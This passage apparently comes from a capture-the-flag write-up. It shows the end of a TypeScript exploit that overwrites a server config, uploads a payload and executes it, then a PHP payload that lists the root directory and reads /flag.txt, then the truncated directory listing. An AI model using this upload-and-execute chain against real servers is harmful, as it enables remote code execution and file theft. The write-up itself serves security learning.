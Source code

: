 ```ts

  return payloadResponse;
};

const main = async () => {
  // Schedule
  overwriteConfigFile();
  uploadPayload();
  setTimeout(async () => {
    const response = await executePayload();
    console.log(response);
  }, 500);
};

main();
```

### main.pwn

```php
<?php

var_dump(glob("/*"));
var_dump(file_get_contents("/flag.txt"));

?>
```

## Extracting the flag

And sure enough, I could execute my payload as a PHP script and retrieve the flag from the root directory of the web server.

```
array(21) {
  [0]=>
  string(4) "/bin"
  [1]=>
  string(5) "/boot"
  [2]=>
  string(4) "/dev"
  [3]=>
  string(4) "/etc"
  [4]=>
  string(9) "/flag.txt"
  [5]=>
  string(5) "/home"
  [6]=>
  string(5) "/kctf"
  [7]=>
  string(4) "/lib"
  [8]=>
  string(6) "/lib64"
  [9]=>
  string(6) "/media"
  [10]=>
  string(4) "/mnt"
  [11]=>
  string(4) "/opt"
  [12]=>
  string(5) "/proc"
  [13]=>
  string(5) "/root"
  [14]=>
```